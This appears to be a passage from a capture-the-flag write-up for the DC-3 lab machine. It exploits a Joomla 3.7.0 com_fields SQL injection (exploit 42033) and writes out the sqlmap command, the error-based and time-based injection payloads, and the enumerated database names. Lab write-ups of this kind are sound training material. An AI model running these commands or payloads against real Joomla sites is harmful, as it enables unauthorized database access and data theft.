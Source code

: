 # Identify vulnerabilities

The version is quite old and suffers from critical vulnerabilities. Let's download the exploit #42033:

~~~
kali@kali:/data/DC-3-2/files$ searchsploit joomla 3.7.0
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Joomla! 3.7.0 - 'com_fields' SQL Injection                                         | php/webapps/42033.txt
Joomla! Component Easydiscuss < 4.0.21 - Cross-Site Scripting                      | php/webapps/43488.txt
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
kali@kali:/data/DC-3-2/files$ searchsploit -m 42033
~~~

# Exploit (SQL injection)

## List the databases

The exploit file provides us with a URL vulnerable to SQL injection. Let's use `sqlmap`:

~~~
kali@kali:/data/DC-3-2/files$ sqlmap -u "http://dc-3/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]

[REDACTED]

sqlmap identified the following injection point(s) with a total of 2712 HTTP(s) requests:
---
Parameter: list[fullordering] (GET)
    Type: error-based
    Title: MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(UPDATEXML(8947,CONCAT(0x2e,0x71626b7671,(SELECT (ELT(8947=8947,1))),0x71766a7071),6088))

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 6160 FROM (SELECT(SLEEP(5)))uGYJ)
---
[15:34:25] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.1
[15:34:25] [INFO] fetching database names
[15:34:25] [INFO] retrieved: 'information_schema'
[15:34:25] [INFO] retrieved: 'joomladb'
[15:34:25] [INFO] retrieved: 'mysql'
[15:34:25] [INFO] retrieved: 'performance_schema'
[15:34:25] [INFO] retrieved: 'sys'
available databases [5]:
[*] information_schema
[*] joomladb
[*] mysql
[*] performance_schema
[*] sys

[15:34:25] [WARNING] HTTP error codes detected during run:
~~~